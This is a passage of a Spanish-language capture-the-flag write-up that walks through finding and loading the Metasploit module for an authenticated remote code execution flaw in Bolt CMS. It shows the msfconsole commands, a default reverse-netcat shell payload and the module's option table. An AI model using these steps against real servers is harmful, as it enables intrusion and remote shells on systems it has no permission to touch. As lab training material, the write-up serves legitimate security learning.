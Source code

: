 En la misma ventana del navegador, buscamos entre los resultados mostrados, encontrando uno de la página rapid 7: `https://www.rapid7.com/db/modules/exploit/unix/webapp/bolt_authenticated_rce/`

Donde al ingresar, tenemos lo siguiente:

```
msf > use exploit/unix/webapp/bolt_authenticated_rce  

msf exploit(bolt_authenticated_rce) > show targets  

...targets...  

msf exploit(bolt_authenticated_rce) > set TARGET < target-id >  

msf exploit(bolt_authenticated_rce) > show options  

...show and set options...  

msf exploit(bolt_authenticated_rce) > exploit
```

Por lo que con esto encontramos la respuesta de la sexta pregunta:

```respuesta
exploit/unix/webapp/bolt_authenticated_rce
```
#### Pregunta 7:
Continuamos ahora con lo siguiente: **Establezca** ***LHOST, LPORT, RHOST, USERNAME, PASSWORD*** **en msfconsole antes de ejecutar el exploit**

Para realizar esto, hacemos uso de **msfconsole**, una vez que nos carga, procedemos a crear el exploit, como se muestra a continuación:

```shell
msf6 > use exploit/unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
```

Ahora procedemos a revisar la configuración del exploit:

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD                              yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS                                yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
```